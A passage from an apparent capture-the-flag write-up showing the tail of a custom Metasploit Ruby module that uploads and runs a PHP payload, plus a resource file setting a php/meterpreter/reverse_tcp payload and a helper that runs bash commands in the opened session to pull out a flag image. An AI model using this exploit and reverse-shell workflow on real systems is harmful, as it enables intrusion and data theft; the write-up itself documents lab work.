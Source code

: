 ```ruby
      sock.close
  
      print_status("Executing PHP payload #{target_uri.path}#{payload_name}")
      res = send_request_cgi!(
        'uri' => normalize_uri(target_uri.path, payload_name),
        'method' => 'GET'
      )
  
      unless res && res.code == 200
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure executing payload")

      end  
    end
  end
```

Our module is complete, but now we need to create a resource file that will handle all of the automation once we achieve a session. Since we will not get a call back to our attacking machine, we will have to add in all of the commands we want to issue into the resource file so that when we upload the module and the resource file everything we need is displayed in the log files that we can see.

We'll set the port we want to use, set the payload type as a "php/meterpreter/reverse_tcp" and we'll also include a Ruby function "list_exec" which will take care of any commands we want to execute in the returned session. 

For the flag, we just need the card image and its md5 hash, so we issue the following to get the hash and a blob of base64 that we can decode on our host to get the png file:
```
md5sum ../../5_of_clubs.png
base64 -w0 ../../5_of_clubs.png
```

The final resource file looks like this:

```
# The module is copied to `modules/exploits/`, so don't change this
use exploit/module

# Datastore initialization here

set payload php/meterpreter/reverse_tcp
set LPORT 4444

# Make sure everything is alright
show options

# this will execute the module and put any session in background
run -z

# Check to make sure session is established.
<ruby>

 def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each do |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("/bin/bash -c \'#{cmd}\'", nil, {'Hidden' => true, 'Channelized' => true})
          while(d = r.channel.read)

             print_status("#{d}")
          end
          r.channel.close
```